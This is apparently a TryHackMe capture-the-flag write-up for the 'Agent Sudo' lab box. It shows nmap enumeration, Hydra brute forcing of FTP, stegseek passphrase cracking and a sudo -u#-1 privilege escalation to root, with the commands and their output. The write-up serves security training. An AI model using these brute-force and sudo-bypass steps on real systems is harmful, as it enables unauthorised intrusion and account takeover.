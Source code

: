# THM - Agent Sudo

### Ip: 10.10.132.28
### Name: Agent Sudo
### Rating: Easy

------------------------------------------------

![thm_agentsudo_pic.png](../assets/agent_sudo_assets/thm_agentsudo_pic.png)

#### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.10.132.28
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-11-18 15:12 CST
Warning: 10.10.132.28 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.132.28
Host is up (0.18s latency).
Not shown: 59955 closed tcp ports (reset), 5577 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef1f5d04d47795066072ecf058f2cc07 (RSA)
|   256 5e02d19ac4e7430662c19e25848ae7ea (ECDSA)
|_  256 2d005cb9fda8c8d880e3924f8b4f18e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Annoucement
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.16 seconds
```

Looking at the site on port 80 we find the following message:

```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```

Capturing the request in Burp, and using `R` for the user-agent field, we get a new result:

![thm_agentsudo_r.png](../assets/agent_sudo_assets/thm_agentsudo_r.png)

Ok, interesting. 

Let's create a list of letters we can use to spray in Burp:

```
A
B
C
D
E
F
G
<snip>
```

Sending the request to Intruder in Burp, pasting in the payload list, and starting the Sniper attack, we see that letter C has a 302 redirect:

![thm_agentsudo_c.png](../assets/agent_sudo_assets/thm_agentsudo_c.png)

Forwarding the request we find a new note, alongside a name of chris:

![thm_agentsudo_note.png](../assets/agent_sudo_assets/thm_agentsudo_note.png)

This is a nice little hint. We now have the username chris, and we know he has a weak password, so let's try brute forcing FTP with Hydra.

![thm_agentsudo_hydra.png](../assets/agent_sudo_assets/thm_agentsudo_hydra.png)

### Exploitation

Cool, that worked. We now have the credentials `chris:crystal`. 

Let's use these to access FTP as chris.

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ ftp 10.10.132.28 
Connected to 10.10.132.28.
220 (vsFTPd 3.0.3)
Name (10.10.132.28:ryan): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||62593|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> mget *
mget To_agentJ.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||34734|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |********************************************************************************|   217        1.33 MiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (1.64 KiB/s)
mget cute-alien.jpg [anpqy?]? y
229 Entering Extended Passive Mode (|||54112|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |********************************************************************************| 33143      280.95 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (131.90 KiB/s)
mget cutie.png [anpqy?]? y
229 Entering Extended Passive Mode (|||28937|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |********************************************************************************| 34842      279.89 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:00 (137.32 KiB/s)
ftp> bye
221 Goodbye.
```

Inside we find three files, let's use `mget *` to download these locally.

Looking at the note first, we find:

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

Trying to use `steghide` to look at the contents of the cute-alien.jpg file, we see it is passphrase protected.

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ steghide extract -sf cute-alien.jpg 
Enter passphrase: 
```

Let's use `stegseek` to crack this:

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ stegseek -sf cute-alien.jpg -wl /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"           
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```

Stegseek gave us an output file, so let's check that out:

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ cat cute-alien.jpg.out
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

Ok, lets use these credentials to SSH in as James:

```
┌──(ryan㉿kali)-[~/THM/Agent_Sudo]
└─$ ssh james@10.10.132.28                                     
The authenticity of host '10.10.132.28 (10.10.132.28)' can't be established.
ED25519 key fingerprint is SHA256:rt6rNpPo1pGMkl4PRRE7NaQKAHV+UNkS9BfrCy8jVCA.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.132.28' (ED25519) to the list of known hosts.
james@10.10.132.28's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-55-generic x86_64)
```

We can now grab the user.txt flag:

![thm_agentsudo_user.png](../assets/agent_sudo_assets/thm_agentsudo_user.png)

### Privilege Escalation

Running `sudo -l` to see what James can run with elevated permissions we find:

```
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Cool, this should make for an easy root.

This is a good guide on abusing this: https://www.exploit-db.com/exploits/47502

We can simply run:

```
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# whoami
root
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
```

And elevate to root.

We can now grab the final flag:

![thm_agentsudo_root.png](../assets/agent_sudo_assets/thm_agentsudo_root.png)

Thanks for following along!

-Ryan

--------------------------------------------------------------
